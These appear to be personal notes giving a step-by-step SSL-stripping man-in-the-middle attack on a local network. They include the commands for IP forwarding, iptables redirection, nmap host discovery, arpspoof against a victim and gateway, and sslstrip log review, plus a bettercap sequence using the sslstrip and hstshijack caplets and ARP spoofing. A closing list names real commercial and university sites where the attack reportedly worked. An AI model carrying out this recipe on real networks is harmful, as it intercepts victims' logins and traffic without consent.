 #### SSLStripping Process
1.  Enable ip_fowarding so the pc can route traffic
ip_forwarding -- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
2. ip rerouting -- iptables...
3.  gateway ip address -- route -n
4. Scan target network to find a specific computer
5. nmap -sP 192.168.1.0/24
6. Review scan results and choose a target
7. Arpspoof to redirect the computers http traffic to our computer -- arpspoof -i eth0 -t [victim IP] [gateway IP]
7. Whilst that runs in the background start sslstrip
8. Login via the targets computer into some site
9. Review sslstrip log file  -- cat sslstrip.log
iptables affects the host where the command is executed. It modifies how that machine handles incoming and outgoing packets.

#### Quick overview of networking tools
iptables -t nat -A PREROUTING -p tcp --destination-port n - j REDIRECT --to-port N
iptables — modifies the NAT (Network Address Translation) table to redirect incoming TCP traffic on port port  n (in our case 80) over to to port N. 
-A PREROUTING — appends a rule to the prerouting chain, which processes packets before they are routed
-p tcp — specifies that the rule applies to tcp packets
-j redirect — specifies that packets should be redirected

#### arpspoof
arpspoof works at a low level, manipulating the ARP table entries of devices on the local network to redirect traffic without altering firewall rules or packet processing at higher layers.

manipulates the ARP tables of devices on the local network to make them believe that your machine's MAC address corresponds to another device's IP address (like the router or another host)

#### net.probe
net.probe enables network probing within bettercap, allowing the tool to discover devices on the network by sending arp requests and listening for responses

#### net.sniff
net.sniff activates packet sniffing, so bettercap will start capturing and analyzing the traffic flowing through the network

#### Bettercap Steps:
0. sudo bettercap -iface eth0
1. caplets.show (optional)
2. set http.proxy.sslstrip true
3. hstshijack/hstshijack
4. net.probe on
5. net.sniff on
6. arp.spoof on

* Note: ```help``` can be used to view the currently active & inactive modules.

#### Working Sites (in process)
**Sites that worked:**
alibaba
foxnews
ign.com
speedtest.com
thecubicle

**Institutional Sites:**
carleton.edu
mit.edu
washington.edu
and most likely more…
